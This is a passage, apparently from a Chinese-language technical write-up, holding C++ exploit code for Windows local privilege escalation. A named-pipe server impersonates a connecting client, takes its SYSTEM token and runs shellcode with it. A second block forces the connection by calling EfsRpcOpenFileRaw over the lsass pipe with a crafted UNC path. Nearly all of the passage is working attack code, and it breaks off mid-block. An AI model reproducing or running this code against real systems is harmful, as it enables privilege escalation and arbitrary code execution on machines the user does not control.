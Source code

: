 ```cpp
	for (;;) {
		if (ConnectNamedPipe(hPipe, NULL) > 0) {
			wprintf(L"[+] A client connected!\n");
			// 模拟客户端Token
			if (!ImpersonateNamedPipeClient(hPipe)) {
				// 如果无法模拟就断开连接
				DisconnectNamedPipe(hPipe);
				continue;
			}
			GetUserName(szUser, &dwSize);
			wprintf(L"[+] Impersonating dummy :) : %s\n\n\n\n", szUser);
			// 将特权Token赋值到全局变量中
			OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &g_hSystemToken);
			if (g_ShellcodeBuffer != NULL && g_dwShellcodeSize != 0) {
				// 如果Shellcode不为空，就开始创建线程执行
				ExecuteShellCodeWithToken(g_hSystemToken);
			}
			DisconnectNamedPipe(hPipe);
		}
	}
```

触发RPC连接实现代码：

```cpp
  RPC_STATUS status;
	RPC_WSTR pszStringBinding;
	RPC_BINDING_HANDLE BindingHandle;

	status = RpcStringBindingCompose(
		NULL,
		(RPC_WSTR)L"ncacn_np",
		(RPC_WSTR)L"\\\\127.0.0.1",
		(RPC_WSTR)L"\\pipe\\lsass",
		NULL,
		&pszStringBinding
	);
	
	status = RpcBindingFromStringBinding(pszStringBinding, &BindingHandle);
	
	status = RpcStringFree(&pszStringBinding);
	
	RpcTryExcept{
		PVOID pContent;
		LPWSTR pwszFileName;
		pwszFileName = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
		StringCchPrintf(pwszFileName, MAX_PATH, L"\\\\127.0.0.1/pipe/random\\C$\\x");

		long result;
		wprintf(L"[*] Invoking EfsRpcOpenFileRaw with target path: %ws\r\n", pwszFileName);
		result = EfsRpcOpenFileRaw(
			BindingHandle,
			&pContent,
			pwszFileName,
			0
		);
		
		status = RpcBindingFree(
			&BindingHandle                   // Reference to the opened binding handle
		);
		LocalFree(pwszFileName);
	}
		RpcExcept(1)
	{
```